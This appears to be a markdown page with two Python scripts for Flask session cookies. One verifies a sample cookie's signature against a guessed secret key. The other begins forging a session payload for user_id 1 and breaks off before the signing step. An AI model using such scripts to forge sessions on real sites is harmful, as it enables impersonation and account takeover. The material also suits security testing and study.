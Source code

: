 ### <a name="verify-flask-cookie"></a> Verify Flask Cookie

```python
#!/usr/bin/env python3
# encoding: utf-8

from hashlib import sha512
from flask.sessions import session_json_serializer
from itsdangerous import URLSafeTimedSerializer, BadTimeSignature
import base64
import zlib
from cuteprint import PrettyPrinter # Available here : https://github.com/terryvogelsang/cuteprint

EXAMPLE_SESSION = '.eJwlj0FuwzAMBP-icw4iJdFiPmNQ5BINArSAnZyK_j0Get_BzP6WPQ-cX-X-Ot64lf0R5V5s1sEBClFMY-qWvACMJFelBKp6o1hWVRJC050Cm4oNSCNp2aXpUIfVMbeexKjcPRKrL2dJulYDxDW56aVL1RgZQtUqlVvx88j99fPE99UTGTxyTYQsUV5kdeNltnX22cJ1CNs2-eLeJ47_E9LL3wdmwz_i.DbwCXg.HQ1RqyWO8SVCgiL5zC-weeD3AjkdGVWTpXSl_PUyC4nnK7kvKrzX6uv1pwxWzx6VaukHjzb5Dkf8vTo3yNmHEA'

p = PrettyPrinter()

signer = URLSafeTimedSerializer(
    'secret-key', salt='cookie-session',
    serializer=session_json_serializer,
    signer_kwargs={'key_derivation': 'hmac', 'digest_method': sha512}
)

def readAndVerifyCookie():
    try:
        session_data = signer.loads(EXAMPLE_SESSION)
        p.print_good("Correct Signature !")
        p.print_good("Session Data : {}".format(session_data))
    except BadTimeSignature:
        p.print_bad("Incorrect Signature for cookie : {}".format(EXAMPLE_SESSION))

if __name__ == '__main__':

    p.print_title("Flask Cookie Checker")

    # Decode
    p.print_separator(suffix="DECODING COOKIE", separator='=')
    t1 = p.start_progress(task="Decoding Cookie {} ...".format(EXAMPLE_SESSION), enable_dots=False)
    readAndVerifyCookie()
    p.stop_progress(t1)
```

### <a name="forge-flask-cookie"></a> Forge Flask Cookie

```python
#!/usr/bin/env python3
# encoding: utf-8

from hashlib import sha512
from flask.sessions import session_json_serializer
from itsdangerous import URLSafeTimedSerializer, BadTimeSignature
import base64
import zlib
from cuteprint import PrettyPrinter # Available here : https://github.com/terryvogelsang/cuteprint

PAYLOAD = {"_fresh":True,"_id":"a8052de1d69e8a214af2beee5f1c991fee09c31dba096fe618cc1de796a5e63163f463959cea05874f12e024cdfeb4bc26f13165e120f239805f99d5fd610a01","csrf_token":"dfd25fb8ed6b692b1a072baa742c83dc9562a782","user_id":1}

p = PrettyPrinter()

```